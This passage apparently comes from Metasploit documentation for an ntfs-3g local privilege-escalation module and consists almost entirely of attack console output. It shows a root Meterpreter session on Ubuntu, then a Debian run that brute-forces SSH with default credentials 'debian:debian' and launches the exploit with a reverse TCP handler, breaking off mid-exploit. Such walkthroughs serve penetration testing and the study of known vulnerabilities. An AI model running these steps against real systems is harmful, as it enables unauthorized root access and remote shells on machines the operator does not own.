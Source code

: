     [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.197:40746) at 2017-02-25 21:48:39 -0500
    [!] This exploit may require manual cleanup of '/tmp/rootshell.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootshell' on the target
    [!] This exploit may require manual cleanup of '/tmp/sploit.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/sploit' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/Makefile' on the target
    [!] This exploit may require manual cleanup of '/tmp/ECldPeni' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.ko' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.mod.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.mod.o' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.o' on the target
    
    meterpreter > sysinfo
    Computer     : 192.168.2.197
    OS           : Ubuntu 16.10 (Linux 4.8.0-22-generic)
    Architecture : x64
    Meterpreter  : x64/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0

### Debian 8.7.1 (ntfs-3g 1:2014.2.15AR.2-1+deb8u2)

#### Initial Access

    [*] Processing ntfs3g.rc for ERB directives.
    resource (ntfs3g.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ntfs3g.rc)> set rhosts 192.168.2.83
    rhosts => 192.168.2.83
    resource (ntfs3g.rc)> set username debian
    username => debian
    resource (ntfs3g.rc)> set password debian
    password => debian
    resource (ntfs3g.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(scanner),115(bluetooth) Linux debian871 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:40679 -> 192.168.2.83:22) at 2017-02-25 22:17:49 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (ntfs3g.rc)> use exploit/linux/local/ntfs3g_priv_esc
    resource (ntfs3g.rc)> set verbose true
    verbose => true
    resource (ntfs3g.rc)> set session 1
    session => 1
    resource (ntfs3g.rc)> set target 1
    target => 1
    resource (ntfs3g.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ntfs3g.rc)> check
    [!] SESSION may not be compatible with this module.
    [+] Vulnerable Debian 8 (jessie) detected
    [*]  The target appears to be vulnerable.
    resource (ntfs3g.rc)> exploit
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Vulnerable Debian 8 (jessie) detected
    [+] make is installed